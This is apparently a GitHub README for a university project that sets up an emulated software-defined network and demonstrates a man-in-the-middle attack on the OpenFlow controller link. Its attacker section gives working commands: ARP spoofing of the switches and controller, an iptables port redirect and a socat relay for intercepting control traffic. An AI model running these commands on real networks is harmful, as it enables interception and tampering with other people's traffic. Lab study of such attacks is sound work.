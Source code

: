 # ENPM693-final-project
# Man-in-the-Middle Attacks on the Southbound Interface in Software-Defined Networks

### Installing necessary tools
```
sudo apt update; sudo apt -y upgrade
sudo apt -y install git net-tools wireshark tshark iperf3
```

### Installing CORE network emulator
```
git clone https://github.com/coreemu/core.git
cd core
./setup.sh
inv install

# update PATH
export PATH=$PATH:/opt/core/venv/bin:/home/ubuntu/.local/bin

# running CORE
# 1st terminal - starting core-daemon
sudo env PATH=$PATH core-daemon

# 2nd terminal - starting core-gui
core-gui 
```

Next step is to import `sdn.xml` to emulator and start it.

Then run the following commands for mentioned devices.

### controller
```
ryu-manager --ofp-tcp-listen-port 6633 controller.py 
```

### switches (sw0, sw1, sw2)
```
chmod +x init_ovs.sh
./init_ovs.sh 10.0.8.10
```

### attacker
```
sudo sysctl -w net.ipv4.ip_forward=1

sudo sysctl -w net.ipv4.conf.all.send_redirects=0


for ip in 10.0.8.1 10.0.8.2 10.0.8.3; do
  sudo arpspoof -i eth0 -t "$ip" 10.0.8.10 &
  sudo arpspoof -i eth0 -t 10.0.8.10 "$ip" &
done

# forward any TCP destined to 10.0.8.10:6633 into local port 6633
sudo iptables -t nat -A PREROUTING -p tcp --dport 6633 \
       -d 10.0.8.10 -j REDIRECT --to-ports 6633

# starting relay
# Listen locally on 0.0.0.0:6633  and forward to the controller 10.0.8.10:6633
sudo socat -v TCP-LISTEN:6633,reuseaddr,fork TCP:10.0.8.10:6633

wireshark
```

![](mitm_attack_sdn_sbi.gif)
